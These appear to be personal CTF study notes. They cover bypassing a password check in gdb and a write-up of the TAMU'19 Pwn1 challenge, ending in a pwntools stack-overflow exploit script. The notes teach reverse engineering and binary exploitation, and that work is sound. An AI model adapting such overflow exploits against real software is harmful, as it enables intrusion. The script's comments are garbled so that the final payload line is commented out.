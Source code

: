 -- disassemble main function ```disassemble main```
- to beautify ```set disassembly-flavor intel```
-  ![[Pasted image 20240427100211.png]]
- focus on function calls and create a rough control flow 
- ![[Pasted image 20240427102347.png]]
- using ni track the address and output
- set break point at the last compare at 607
- since  607 is checking for 0 at eax,we manually change this to 0 by ```set $eax=0```
- run ... we got access granted


#### TAMU'19: Pwn1

![[Pasted image 20240430175919.png]]
![[Pasted image 20240430180018.png]]

- here we could see that our input must contain the two strings to pass the both strcmp checks
- after these strcmp we coluld see that "deall0c8" is compared
-![[Pasted image 20240430180156.png]]
- next step to padd and overwrite to the local18 which is being comared so we find offset and padd with  any value and after padding we concatenate the the value to be overwritten deall0c8
- so now print flag is called
- now our finall program will be 
```
# Import pwntools 
from pwn import *
# Establish the target process 
target = process('./pwn1') 
# Make the payload 
payload = "" 
payload += "0"*0x2b # Padding to `local_18` 
payload += p32(0xdea110c8) 
# the value we will overwrite local_18 with, in little endian # Send the strings to reach the gets call 
target.sendline("Sir Lancelot of Camelot") 
target.sendline("To seek the Holy Grail.") # Send the payload target.sendline(payload) 
target.interactive()
```